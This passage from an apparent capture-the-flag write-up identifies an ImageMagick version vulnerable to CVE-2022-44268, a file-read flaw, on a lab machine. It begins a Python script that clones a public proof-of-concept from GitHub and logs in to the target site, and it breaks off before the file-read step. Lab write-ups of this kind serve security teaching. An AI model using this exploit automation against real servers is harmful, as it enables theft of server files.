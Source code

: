 We can see the version of the executable is `ImageMagick 7.1.0-49`.

```bash
$ ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

It seems that there's a file read vulnerability we could exploit.

{% embed url="https://github.com/voidz0r/CVE-2022-44268" %}

### Automation

To automate the process, we write the following Python script to read the file content and store it in file `result`:

{% code overflow="wrap" %}
```python
#!/usr/bin/python3

import re, os, sys, shlex
import cmd
import subprocess
from requests import Session

USER = 'tester@example.com'
PASS = 's3cRet'
POC = 'https://github.com/voidz0r/CVE-2022-44268'
WORKDIR = '/tmp/imagick_reader'

try:
    os.system("mkdir -p %s" % WORKDIR)
    os.chdir(WORKDIR)
except FileNotFoundError as e:
    print(e)
    sys.exit(-1)

os.system('sh -c "[ -d poc ] || git clone \"%s\" poc"' % POC)

class Reader(cmd.Cmd):
    def __init__(self, username, passwd):
        super().__init__()
        self.s = Session()
        self.url = 'http://pilgrimage.htb'
        self.proxies = {
                'http': 'http://localhost:8080'
                }
        self.login()

    def login(self):
        data = {
                'username': USER,
                'password': PASS
                }
        res = self.s.post(self.url+'/login.php', data=data, proxies=self.proxies)
        if not 'Shrunken Image URL' in res.text:
            self.register()

    def register(self):
        data = {
```